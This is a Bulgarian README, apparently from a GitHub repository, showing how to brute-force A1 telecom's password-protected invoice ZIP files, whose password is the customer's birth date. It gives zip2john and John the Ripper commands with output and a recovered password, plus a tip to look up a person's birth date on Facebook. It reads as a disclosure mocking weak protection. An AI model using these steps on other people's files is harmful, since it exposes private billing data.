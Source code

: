 __Как да преодолеете "С оглед сигурност на достъпа до Вашите данни, файлът е защитен с парола, която е рождената Ви дата във формат ГГММДД – последните две цифри от годината на раждане, месец и ден." защита, измислена от А1 в няколко стъпки.__

Какво ще ви е необходимо:
1) [JohnTheRipper Password cracker](https://www.openwall.com/john/) - За Windows в момента това е версия 1.9.0. Уверете се, че изтеглената версия е Jumbo, трябва ви конвертора zip2john от него (намира се в run/)
    
2) [Файл](https://github.com/nikip72/a1-bg-invoice-bruteforce/raw/main/pass.zip) с генерирани всички възможни пароли, формата е ГГММДД, което означава [00-99][01-12][01-31]. Това прави 37200 комбинации. Да, не всички месеци имат 31 дни, но комбинациите са толкова малко, че това няма никакво значение. Файлът може да бъде генериран по много начини, или да бъде изтеглен от тук, или изтеглен от тук.
    
3) "Защитеният" с парола файл
    
__Стъпка по стъпка указания - в случая използваната ОС е Linux, файла с генерираните пароли се нарича pass.txt, а "защитеният файл" - 0433966193.zip.__

1) Генерирайте хеш за използване от JohnTheRipper с помощта на zip2john
    ```
    $ zip2john ./0433966193.zip > hash
    ver 2.0 0433966193.zip/0433966193.pdf PKZIP Encr: cmplen=652801, decmplen=654165, crc=4B1608B9
    $ ls -la hash
    -rw-r--r-- 1 root root 1305751 Jul 28 06:23 hash
    ```

2) Старирайте JohnTheRipper
     ```
     $ john --wordlist=./pass.txt ./hash
     Using default input encoding: UTF-8
     Loaded 1 password hash (PKZIP [32/64])
     Will run 2 OpenMP threads
     Press 'q' or Ctrl-C to abort, almost any other key for status
     901212           (0433966193.zip/0433966193.pdf)
     1g 0:00:00:00 DONE (2021-07-28 06:25) 12.50g/s 358400p/s 358400c/s 358400C/s 670125..780128
     Use the "--show" option to display all of the cracked passwords reliably
     Session completed
     ```
 Както виждате, почти моментално паролата е намерена - __901212__

3) Разархивирайте супер защитения файл
     ```
     $ unzip 0433966193.zip
     Archive:  0433966193.zip
     [0433966193.zip] 0433966193.pdf password: 
       inflating: 0433966193.pdf
     $ ls -la 0433966193.pdf
     -rw-r--r-- 1 root root 654165 Jul 26 05:49 0433966193.pdf
    ```

4) Бонус 1:
 ако искате да ускорите процеса, не че има накъде, проверете датата на раждане на човека във FB. Евентуално ще трябва да познаете годината само, което свежда комбинациите до 100
5) Бонус 2:
 може да се използва и програмата fcrackzip, която в режим на генериране на пароли само от цифри се справи за 1 мин.
6) Бонус 3:
 позабавлявайте се с оплакване в А1 за да се наслушате как всичко това се прави за вашата сигурност
